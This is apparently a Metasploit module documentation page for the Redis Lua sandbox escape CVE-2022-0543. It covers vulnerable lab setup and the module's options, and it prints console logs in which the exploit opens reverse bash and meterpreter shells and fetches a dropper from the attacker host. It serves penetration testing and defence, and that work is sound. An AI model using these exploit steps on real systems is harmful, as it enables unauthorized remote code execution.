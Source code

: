 ## Vulnerable Application

### Description

This module exploits CVE-2022-0543, a Lua-based Redis sandbox escape. The
vulnerability was introduced by Debian and Ubuntu Redis packages that
insufficiently sanitized the Lua environment. The maintainers failed to
disable the package interface, allowing attackers to load arbitrary libraries.

On a typical `redis` deployment (not docker), this module achieves execution
as the `redis` user. Debian/Ubuntu packages run Redis using systemd with the
"MemoryDenyWriteExecute" permission, which limits some of what an attacker can
do. For example, staged meterpreter will fail when attempting to use mprotect.
As such, stageless meterpreter is the preferred payload.

Redis can be configured with authentication or not. This module will work with
either configuration (provided you provide the correct authentication details).
This vulnerability could theoretically be exploited across a few architectures:
i386, arm, ppc, etc. However, the module only supports x86_64, which is likely
to be the most popular version.

### Setup

I'll explain two setup scenarios. I'll first go through Docker since it's so easy
but I don't think it's realistically the most likely deployment. I'll then
explain an Ubuntu 20.04 installation.

#### Docker

This will deploy an official Ubuntu Redis image. To get a vulnerable image do the
following:

1. `docker pull ubuntu/redis:6.0-21.04_edge`
1. `docker run -d --name vuln_redis -e TZ=UTC -p 6379:6379 -e REDIS_PASSWORD=mypassword ubuntu/redis:6.0-21.04_edge`

The vulnerable Redis will now be on port 6379. Note that this version uses a password.

To deploy a patched version, do the following:

1. `docker pull ubuntu/redis:latest`
1. `sudo docker run -d --name fixed_redis -e TZ=UTC -p 6379:6379 -e REDIS_PASSWORD=mypassword ubuntu/redis:latest`

#### Ubuntu 20.04

1. `sudo apt-get install redis-tools=5:5.0.7-2`
1. `sudo apt-get install redis-server=5:5.0.7-2`
1. `sudo nano /etc/redis/redis.conf` -> Comment out "bind" and change "protected-mode" to no.
1. `sudo service redis restart`

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/redis/redis_debian_sandbox_escape`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: If needed - `set PASSWORD <password>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module receives a reverse shell

## Options

### LUA_LIB

The path to the Lua library to load. The default, `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`,
appears to be valid for both Ubuntu and Debian but I made it optional in case some edge
case crops up that I hadn't considered.

### PASSWORD

The password, if needed, to use with the Redis AUTH command.

## Scenarios

### Successful exploitation of Redis on Ubuntu 20.04 for reverse bash shell

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.22
RHOST => 10.0.0.22
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[+] 10.0.0.22:6379 - The target is vulnerable. Successfully executed the 'id' command.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 10.0.0.22:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 10.0.0.22:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 10.0.0.22:6379        - Executing Unix Command for cmd/unix/reverse_bash
[+] 10.0.0.22:6379        - Exploit complete!
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.22:60844 ) at 2022-04-26 03:17:39 -0700

id
uid=127(redis) gid=134(redis) groups=134(redis)
uname -a
Linux ubuntu 5.13.0-40-generic #45~20.04.1-Ubuntu SMP Mon Apr 4 09:38:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Successful exploitation of Redis on Ubuntu 20.04 for reverse meterpreter

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.22
RHOST => 10.0.0.22
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set target 1
target => 1
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 10.0.0.22:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 10.0.0.22:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 10.0.0.22:6379        - Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] 10.0.0.22:6379        - Using URL: http://10.0.0.2:8080/mBTPVKr7pZVP
[*] 10.0.0.22:6379        - Client 10.0.0.22 (Wget/1.20.3 (linux-gnu)) requested /mBTPVKr7pZVP
[*] 10.0.0.22:6379        - Sending payload to 10.0.0.22 (Wget/1.20.3 (linux-gnu))
[+] 10.0.0.22:6379        - Exploit complete!
[*] 10.0.0.22:6379        - Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 1 opened (10.0.0.2:4444 -> 10.0.0.22:60848 ) at 2022-04-26 03:21:22 -0700
[*] 10.0.0.22:6379        - Server stopped.

meterpreter > shell
Process 13120 created.
Channel 1 created.
id
uid=127(redis) gid=134(redis) groups=134(redis)
uname -a
Linux ubuntu 5.13.0-40-generic #45~20.04.1-Ubuntu SMP Mon Apr 4 09:38:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Successful exploitation of Redis in Ubuntu Docker for reverse bash shell

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set PASSWORD mypassword
PASSWORD => mypassword
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[+] 127.0.0.1:6379 - The target is vulnerable. Successfully executed the 'id' command.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 127.0.0.1:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 127.0.0.1:6379        - Executing Unix Command for cmd/unix/reverse_bash
[+] 127.0.0.1:6379        - Exploit complete!
[*] Command shell session 1 opened (10.0.0.2:4444 -> 172.17.0.2:33148 ) at 2022-04-26 03:23:32 -0700

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux 9c7526769ad1 5.13.0-40-generic #45-Ubuntu SMP Tue Mar 29 14:48:14 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Failed exploitation due to wrong password

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set PASSWORD lolwat
PASSWORD => lolwat
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 127.0.0.1:6379 - Cannot reliably check exploitability. Failed authentication.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > 
```

### Failed exploitation of patched Redis on Debian 11

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.24
RHOST => 10.0.0.24
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 10.0.0.24:6379 - The target is not exploitable. Could not execute 'id' on the remote target.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > 
```

### Failed exploitation of not-vulnerable Ubuntu 18.04 i386.

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.25
RHOST => 10.0.0.25
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 10.0.0.25:6379 - The target is not exploitable. The reported version is unaffected: 4.0.9
msf6 exploit(linux/redis/redis_debian_sandbox_escape) >
```
